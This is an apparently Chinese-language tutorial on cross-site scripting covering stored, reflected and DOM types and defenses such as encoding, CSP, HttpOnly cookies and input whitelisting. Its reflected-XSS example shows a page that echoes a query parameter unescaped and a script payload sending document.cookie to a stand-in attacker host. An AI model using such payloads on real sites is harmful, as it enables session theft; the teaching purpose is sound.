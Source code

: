 # XSS 跨域脚本攻击(Cross-Site Scripting)

跨站脚本攻击称为`XSS`，为了和`CSS`有所区分所以简写为`XSS`。
`XSS`注入攻击的一种，本质是在网站上注入恶意脚本，使之在浏览器上运行。
`XSS`攻击的主要攻击方式有获取用户信息(例如 Cookie)、在页面插入内容(例如广告)或流量劫持、诱导用户到非法网站等。

任何可输入的地方都可能注入恶意脚本，常见的输入方式：

- 用户的 UGC 信息
- URL 参数
- POST 参数
- Referer
- Cookie

常见的注入方式：

- 在 HTML 中内嵌的文本中，恶意内容以`<script/>`标签形成注入。
- 在内联的 JavaScript 中，拼接的数据突破了原本的限制（字符串，变量，方法名等）。
- 在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签。
- 标签的`href`、`src`属性，事件`onload`、`onerror`、`onclick`等使用`javascript:`注入

## 存储型(持久型) XSS 攻击

1. 攻击者将恶意代码提交到目标网站的数据库中。
2. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。
3. 浏览器解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

常见场景：UGC 类网站，如贴吧、评论等
危险性较大，无需用户手动触发隐蔽性高，存储型攻击会对访问被攻击页面的所有用户进行攻击。

## 反射型(非持久型) XSS 攻击

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

常见常见：通过 URL 传递参数的功能，如网站搜索、跳转等。
危险性相对存储型较小，只有用户主动打开恶意的 URL 才能生效

```HTML
<!-- http://victim.com网站 后台代码 -->
<html>
　　<title></title>
　　<body>
　　　　Results  for  <%Request.QueryString("term")%>
　　　　...
　　</body>
</html>
<!-- 攻击 -->
<!-- step1 建立后台用来偷取用户信息 -->
http://badguy.com
<!-- step2 发送恶意链接，可以通过邮件 qq等 -->
http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
<!-- 这时只要用户点击这个连接，那么生成的页面中就包含可以指向的代码片段 -->
<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
<!-- 这个代码自动运行把用户的cookie发送到了攻击者的网站 -->
```

## DOM 型 XSS 攻击

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL。
3. 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

## 应对策略

一些高级浏览器会自动拦截 XSS 攻击但是不能完全拦截。
防治的根本之道是过滤用户的输入，做`encode`处理，将其中的`<`、`>`、`'`、`"`、`;`之类的特殊字符进行编码。
在这方面前端无法彻底解决，更多的需要后端进行处理。

### CSP(Content-Security-Policy)

内容安全策略(CSP)的目标是建设和报告 XSS 攻击。CSP 通过指定有效域(浏览器认可的可执行脚本来源)可以阻止非信任脚本执行。

CSP 有两种配置方式：

- 在服务端使用 HTTP Response Header `Content-Security-Policy`字段配置
- 在 HTML 页面中使用`<meta>`标签配置

策略示例：`Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src userscripts.example.com`

- 各种内容默认仅允许从文档所在的源获取`default-src 'self';`, 但存在如下例外:
- 图片可以从任何地方加载(注意`*`通配符)。
- 多媒体文件仅允许从`media1.com`和`media2.com`加载(不允许从这些站点的子域名)。
- 可运行脚本仅允许来自于`userscripts.example.com`。

详细配置策略参考：[内容安全策略( CSP )](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)

### HttpOnly 防止劫持 Cookie

将重要的 Cookie 标记为`http-only`, 浏览器将禁止 Javascript 访问被标记的 Cookie，能阻止 XSS 攻击后的 Cookie 劫持攻击.

### 输入检查

**不相信用户的任何输入**，对于用户的任何输入要进行检查、过滤和转义。

1. 建立可信任的字符和 HTML 标签白名单，对于不在白名单之列的字符或者标签进行过滤或编码。
2. 只允许用户输入我们期望的数据。 例如：年龄的`<input />`中，只允许用户输入数字，数字之外的字符都过滤掉。
3. 检测是否包含`< >`等特殊字符，对特殊在发进行过滤或编码。

## TODO:WEB&Node 字符转义

## TODO:XSS 检测
